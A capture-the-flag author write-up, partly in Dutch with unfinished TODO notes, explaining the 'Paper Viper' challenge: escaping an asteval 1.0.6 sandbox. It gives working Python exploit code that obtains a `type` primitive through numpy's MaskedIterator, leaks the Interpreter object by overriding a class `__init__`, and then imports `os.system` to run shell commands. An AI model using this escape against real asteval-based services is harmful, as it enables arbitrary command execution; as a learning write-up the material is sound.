

# Paper Viper



**Author**: Ward  
**Flag**: `kalmar{d0nt_play_w1th_5n4kes_if_you_don7_h4ve_gl0v3s}`  

## Setup
Insert screenshot van de challenge description

Handout: `chal.py`, `Dockerfile`, `compose.yml`, `getflag.c`

`asteval==1.0.6`, de nieuwste release.

## The challenge:

TODO: Context from UofTCTF

```python
import asteval

# With this many functions from numpy removed there definitely will not be a way for users to get to `type()`, which is a security risk
asteval.astutils.NUMPY_TABLE = {k: asteval.astutils.NUMPY_TABLE[k] for k in ["genfromtxt"]}

def get_input():
    print("Give input, end with a line of $END$")
    inp = ""
    while True:
        temp = input()
        if temp == "$END$":
            break
        inp += temp +"\n"
    return inp

def nope(text):
    if not text.isascii():
        quit("Sorry, only ascii!")
    if any([text.find(x) >= 0 for x in ["yt", "ty", "rm", "uf", "**"]]):
        quit('Sorry, those bigrams just give me bad vibes!')

def main():
    inp = get_input()
    nope(inp)
    asteval.Interpreter().eval(inp, raise_errors=True)

if __name__ == "__main__":
    main()
```

Heel janky library, heleboel bugs en 0days aanwezig. numpy geeft huge attack surface, dus het was best een uitdaging om mensen de juiste richting in te duwen van de intended en de unintendeds te filteren zonder dat het super arbitrair wordt.
Ben ook niet helemaal tevreden door deze filters sinds ze nogal arbitrair zijn, het gaat om de sandbox escape en niet om het bypassen van mijn filters, zoals het geval zou zijn bij e.g. de leuke jailctf pyjails.
TODO uitleggen hoe de challenge tot stand is gekomen / waar de specifieke filters voor zijn:
byte, bytearray, format, buffer, dict unpacking for kwargs which would bypass names that would be filtered otherwise (since strings can be constructed to bypass the filter).

## The solution:
Tijdens de CTF is hij twee keer opgelost, door bekenden in de pyjail-scene, Lyndon van Maple Mallard Magistrates en oh_word, van Infobahn.

Ook shout out naar PianoMan / SteakEnthusiast

Lyndon gebruikte een f-string-gebaseerde methode (met de breder bekende methode van AttributeError.obj om een waarde uit een format string te redden) die erg leek op de oplossing van een van de chals voor UofTCTF.
Ik ken de techniek, na UofTCTF is er een patch geweest naar asteval die bedoeld was om het te fixen. Die blijkt niet te werken.
In mijn locale testing-setup werkte het niet (waarschijnlijk omdat ik op een oudere versie van python zat dan op de remote), waardoor ik het niet aan de filters heb toegevoegd.
oh_word heeft de intended route voor `type` gevonden, en daarna memory exploitation gedaan.

### Getting a type primitive:

Uitleg: in de chal wordt hiernaar gehint. Hoe vind je dit?
Wat intelligente searches op type in `numpy`, e.g. als je zoekt op `type(self.` zijn er 4 resultaten, waarvan er maar 2 geen tests zijn.  Meer algemene searches zullen het ook vinden, maar dan heb je wat meer werk in het wegstrepen van routes die niet werken met user-controlled argumenten.
In MaskedArray.count ziet het er zo uit:
```python
        if isinstance(self.data, np.matrix):
            if m is nomask:
                m = np.zeros(self.shape, dtype=np.bool)
            m = m.view(type(self.data))
```
Dit is niet vulnerable: zelfs als de isinstance-check geen probleem zou zijn, dan nog wordt het resultaat van deze call dusdanig gebruikt dat het niet zomaar mogelijk is om bij het resultaat te kunnen.

De andere optie:
```python
def __getitem__(self, indx):
        result = self.dataiter.__getitem__(indx).view(type(self.ma))
        if self.maskiter is not None:
            _mask = self.maskiter.__getitem__(indx)
            if isinstance(_mask, ndarray):
                # set shape to match that of data; this is needed for matrices
                _mask.shape = result.shape
                result._mask = _mask
            elif isinstance(_mask, np.void):
                return mvoid(result, mask=_mask, hardmask=self.ma._hardmask)
            elif _mask:  # Just a scalar, masked
                return masked
        return result
```
De getitem van MaskedIterator. self.ma is user-controlled, self.dataiter is user-controlled. Als we dus ervoor kunnen zorgen dat de .view-methode op dat object uit de dataiter zijn argument returnt, of het in een globale lijst opslaat oid, dan kunnen we direct bij het resultaat van type en hebben we een werkende type primitive.

```python
# Get `type` primitive
def id(x):
    return x

genfromtxt.view = id
ma = genfromtxt(["1"], usemask=True)
mf = ma.flat
mf.maskiter = None
mf.ma = "foo"
mf.dataiter = [genfromtxt]
str = mf[0]

mf.ma = str
t = mf[0]
```

Wat geeft type ons? In de sandbox heb je een fake versie van type. Type stelt ons in staat om class objects te verkrijgen van alle objecten waar we toegang toe hebben in de sandbox, inclusief `asteval`-eigen klassen.

### Overriding class level dunders to leak the interpreter object:

Point out de bug in setattr van dunders.
Point out de bug van setattr in Procedure als instance-level-functie ipv class-level.

```python
# Get Procedure class object
def f():
    pass
p = t(f)

# Obtain the Interpreter instance
def stealer(name, interp, doc=None, lineno=None,
                 body=None, text=None, args=None, kwargs=None,
                 vararg=None, varkws=None):
    print(interp)
    kwargs[0][1].append(interp)
p.__init__ = stealer
rescuelist = []
def g(rescue=rescuelist):
    pass
i = rescuelist[0]
print(i)
```

Dit geeft ons een interpreter-object.

### Profit:
Op dit punt zijn er een heleboel opties.
De makkelijkste is om gewoon gebruik te maken van de importfunctionaliteit.
Een leuke alternatieve optie is om de attribuutnaam-check in on_name te omzeilen door een fake-subtype van string te maken en daarmee de waarde van een ast.Name node te overschrijven, maar die laat is als exercise to the reader.

```python
# Import and escape the jail
i.import_module("os",["sys"],["system"])
sys("echo hi mom")
sys("/getflag")
print()
```

`kalmar{d0nt_play_w1th_5n4kes_if_you_don7_h4ve_gl0v3s}`
